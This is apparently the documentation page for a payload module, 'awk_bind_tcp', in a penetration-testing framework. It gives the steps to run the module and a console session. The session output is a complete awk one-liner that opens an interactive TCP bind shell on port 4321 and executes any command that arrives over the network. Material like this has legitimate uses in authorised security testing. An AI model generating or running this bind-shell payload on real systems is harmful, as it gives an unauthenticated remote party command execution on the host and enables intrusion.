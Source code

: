 ## Description

Module generates payload that creates interactive tcp bind shell by using awk one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/awk_bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates awk tcp bind shell payload.

## Scenarios

```
rsf > use payloads/cmd/awk_bind_tcp
rsf (Awk Bind TCP) > set rport 4321
[+] rport => 4321
rsf (Awk Bind TCP) > run
[*] Running module...
[*] Generating payload
awk 'BEGIN{s="/inet/tcp/4321/0/0";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
